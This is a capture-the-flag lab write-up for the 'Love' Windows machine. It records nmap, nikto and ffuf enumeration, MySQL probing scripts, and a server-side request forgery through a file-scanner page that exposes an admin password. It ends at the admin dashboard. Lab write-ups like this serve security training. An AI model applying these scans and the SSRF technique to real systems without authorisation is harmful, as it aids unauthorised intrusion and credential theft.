* Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.239

**OS**: Windows

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.239
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 11:09 EDT
Nmap scan report for 10.10.10.239
Host is up (0.071s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
```
### Advanced Scan
```
$ sudo nmap -T4 -p80,135,139,443,445,3306,5000,5986,7680,47001 -A -O 10.10.10.239
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 11:20 EDT
Nmap scan report for 10.10.10.239
Host is up (0.047s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.16.173' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-12T15:47:32+00:00; +26m21s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=6/12%Time=60C4D0AB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GenericLine
SF:s,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,4
SF:B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(HTTPOptions,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPRequest,4B,"G
SF:\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,4B,"G\0\0\
SF:x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqTCP,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRequestT
SF:CP,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCookie
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionReq
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerberos,4B,"
SF:G\0\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,4B,"G\0
SF:\0\x01\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20to\
SF:x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B,"G\0\0\x0
SF:1\xffj\x04Host\x20'10\.10\.16\.173'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (96%), Microsoft Windows Longhorn (94%), Microsoft Windows 10 1709 - 1803 (93%), Microsoft Windows 10 1809 - 1909 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows 10 1703 (93%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows Server 2008 SP2 (93%), Microsoft Windows 7 SP1 (93%), Microsoft Windows 8.1 Update 1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h11m21s, deviation: 3h30m02s, median: 26m20s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-12T08:47:25-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-12T15:47:24
|_  start_date: N/A

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   49.58 ms 10.10.16.1
2   23.97 ms 10.10.10.239
```

## **Enumerating SMB**
```
$ smbclient -L \\\\10.10.10.239\\
Enter WORKGROUP\prateek's password: 
session setup failed: NT_STATUS_ACCESS_DENIED
```
We cannot enumerate SMB till we obtain valid credentials, so moving forward with enumerating other services for now.

## **Enumerating HTTP and HTTPS**
Except port 80, no other port related to web is accessible.
### **Website**


### **Wappalyzer and whatweb**


```
$ whatweb http://10.10.10.239/
http://10.10.10.239/ [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.10.10.239], JQuery, OpenSSL[1.1.1j], PHP[7.3.27], PasswordField[password], Script, Title[Voting System using PHP], X-Powered-By[PHP/7.3.27], X-UA-Compatible[IE=edge]
```
### **Login Request Details**


### **nikto**
```
$ nikto -h http://10.10.10.239/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.239
+ Target Hostname:    10.10.10.239
+ Target Port:        80
+ Start Time:         2021-06-12 12:25:03 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/7.3.27
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /Admin/: This might be interesting...
+ 8680 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-06-12 12:31:40 (GMT-4) (397 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
### **FFuF**
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.239/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 4388, Words: 654, Lines: 126]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 4388, Words: 654, Lines: 126]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 4388, Words: 654, Lines: 126]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 4388, Words: 654, Lines: 126]
# Priority-ordered case-sensitive list, where entries were found [Status: 200, Size: 4388, Words: 654, Lines: 126]
# directory-list-2.3-small.txt [Status: 200, Size: 4388, Words: 654, Lines: 126]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 4388, Words: 654, Lines: 126]
#                       [Status: 200, Size: 4388, Words: 654, Lines: 126]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126]
# on at least 3 different hosts [Status: 200, Size: 4388, Words: 654, Lines: 126]
# Copyright 2007 James Fisher [Status: 200, Size: 4388, Words: 654, Lines: 126]
#                       [Status: 200, Size: 4388, Words: 654, Lines: 126]
images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
# This work is licensed under the Creative Commons [Status: 200, Size: 4388, Words: 654, Lines: 126]
#                       [Status: 200, Size: 4388, Words: 654, Lines: 126]
Images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
dist                    [Status: 301, Size: 336, Words: 22, Lines: 10]
licenses                [Status: 403, Size: 421, Words: 37, Lines: 12]
IMAGES                  [Status: 301, Size: 338, Words: 22, Lines: 10]
%20                     [Status: 403, Size: 302, Words: 22, Lines: 10]
Admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
*checkout*              [Status: 403, Size: 302, Words: 22, Lines: 10]
Plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
phpmyadmin              [Status: 403, Size: 302, Words: 22, Lines: 10]
webalizer               [Status: 403, Size: 302, Words: 22, Lines: 10]
*docroot*               [Status: 403, Size: 302, Words: 22, Lines: 10]
*                       [Status: 403, Size: 302, Words: 22, Lines: 10]
con                     [Status: 403, Size: 302, Words: 22, Lines: 10]
http%3A                 [Status: 403, Size: 302, Words: 22, Lines: 10]
Includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
**http%3a               [Status: 403, Size: 302, Words: 22, Lines: 10]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126]
aux                     [Status: 403, Size: 302, Words: 22, Lines: 10]
*http%3A                [Status: 403, Size: 302, Words: 22, Lines: 10]
Dist                    [Status: 301, Size: 336, Words: 22, Lines: 10]
**http%3A               [Status: 403, Size: 302, Words: 22, Lines: 10]
%C0                     [Status: 403, Size: 302, Words: 22, Lines: 10]
:: Progress: [87664/87664] :: Job [1/1] :: 571 req/sec :: Duration: [0:02:58] :: Errors: 0 ::

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/PHP.fuzz.txt -u http://10.10.10.239/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/PHP.fuzz.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

/admin                  [Status: 301, Size: 337, Words: 22, Lines: 10]
/phpmyadmin             [Status: 403, Size: 302, Words: 22, Lines: 10]
/login.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [104/104] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt -u http://10.10.10.239/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

/.htaccess.bak          [Status: 403, Size: 302, Words: 22, Lines: 10]
/.htpasswd              [Status: 403, Size: 302, Words: 22, Lines: 10]
/server-status          [Status: 403, Size: 421, Words: 37, Lines: 12]
/server-info            [Status: 403, Size: 421, Words: 37, Lines: 12]
/.htaccess              [Status: 403, Size: 302, Words: 22, Lines: 10]
:: Progress: [8531/8531] :: Job [1/1] :: 1180 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt -u http://10.10.10.239/admin/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.239/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

/.htaccess.bak          [Status: 403, Size: 302, Words: 22, Lines: 10]
/.htpasswd              [Status: 403, Size: 302, Words: 22, Lines: 10]
/.htaccess              [Status: 403, Size: 302, Words: 22, Lines: 10]
:: Progress: [8531/8531] :: Job [1/1] :: 1273 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

## **Enumerating SQL**
```
$ nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.10.239
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 12:15 EDT
Nmap scan report for 10.10.10.239
Host is up (0.030s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.16.173' is not allowed to connect to this MariaDB server
|_mysql-empty-password: Host '10.10.16.173' is not allowed to connect to this MariaDB server
| mysql-enum: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
```
Again, our system is not allowed to connect with the MySQL instance, so we cannot proceed further.

# Notes
At this point, I was stuck. Searching for vulnerabilities related to the open services did not reveal anything and attempts to brute-force the admin password were also not fruitful. Again back to enumeration!!

# Passive Enumeration II
I went back to the nmap scan and focused on the open web ports that I had not been able to access earlier. The advanced nmap scan had revealed that the port 443 had an associated ssl-cert with the value "Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in". I added an entry to [hosts](/etc/hosts) file as below and navigated to the [website](staging.love.htb).
```
10.10.10.239	staging.love.htb
```


The "Demo" tab is interesting and provides an interface to scan files.


The URL, http://10.10.10.239:80/, is successfully interpreted by the scanner and we get the login screen as output.


Proceeding further, at first, I thought of trying to read the PHP files that were present inside the /includes/ directory identified with FFuF. However, that did not provide any output. So, next I tried to access the other ports that were open(443, 5000, 7680). This time the port 5000, http://10.10.10.239:5000/, returns a "forbidden" error.



This seemed promising and I tried to access the port with the localhost address which worked and revealed the admin password.


## **Admin Dashboard**
Logging in to the admin dashboard, we are presented with a voting management site.

